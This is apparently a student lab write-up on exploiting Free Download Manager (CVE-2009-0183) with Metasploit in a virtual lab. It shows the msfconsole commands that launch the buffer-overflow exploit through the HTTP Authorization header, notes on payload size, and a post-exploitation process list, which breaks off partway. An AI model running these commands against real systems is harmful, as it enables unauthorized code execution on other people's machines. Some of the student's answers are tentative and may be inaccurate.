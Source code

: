 ## Part 3: Exploitation

1. First we need to setup the msfconsole exploit

   `msfconsole`

   `use exploit/windows/http/fdm_auth_header`

   `set RHOSTS 10.0.2.4`

   `exploit` (might need to run multiple times)

   From the wireshark captures it seems that the exploit uses HTTP application protocol and TCP transmitting protocol to interact with the download manager.

2. `Authorization` contains the payload. (double click on the HTTP request sent to the server)

3. When the "Basic" authentication schemed is used, the credentials are constructed as follows:

   - username and password are combined with a colon. 
   - The resulting string is base64 encoded

   base64 is used because it helps alleviate the problematic characters that may cause trouble in HTTP.

   After decoding the payload, I see a lot of uppercase letters

4. The payload is set to 600 bytes, and the actual spoint data is 1012 bytes in total including the payload. The exploit uses upper case letter to overwite it. 

5. The above value redirected the program to this address `0x0040ae0f`, the owner of this address should be the free downlaoder manager. 

6. We have 600 bytes of space for our payloads to reside in. Larger payload may result in corruption or truncation of our exploit. 

7. The default exit functino is 'thread'. This command will make sure the vulnerable program is stable after we send our exploit. This value is usually specified when we alter the shellcode.

8. 'CVE', '2009-0183'

9. The CVSSV@ score of the exploit is 10 because it allows user to execute arbitrary code via authorization header in an HTTP request. This is really critical therefore it is assigned a score of 10 and should be fixed immediately

10. victimbox/class

11. C:\Program Files

12. ?  `systeminfo` 6.1.7601 Service Pack 1 Build 7601

13. ? Not sure which one of the following process we are looking for

    ```
     PID   PPID  Name               Arch  Session  User             Path
     ---   ----  ----               ----  -------  ----             ----
     0     0     [System Process]                                   
     4     0     System                                             
     100   480   SearchIndexer.exe                                  
     264   4     smss.exe                                           
     340   332   csrss.exe                                          
     348   1616  explorer.exe       x86   1        victimbox\class  C:\Windows\Explorer.EXE
     388   332   wininit.exe                                        
     396   380   csrss.exe                                          
     436   380   winlogon.exe                                       
     480   388   services.exe                                       
     488   388   lsass.exe                                          
     496   388   lsm.exe                                            
     600   480   svchost.exe                                        
     664   480   VBoxService.exe                                    
     720   480   svchost.exe                                        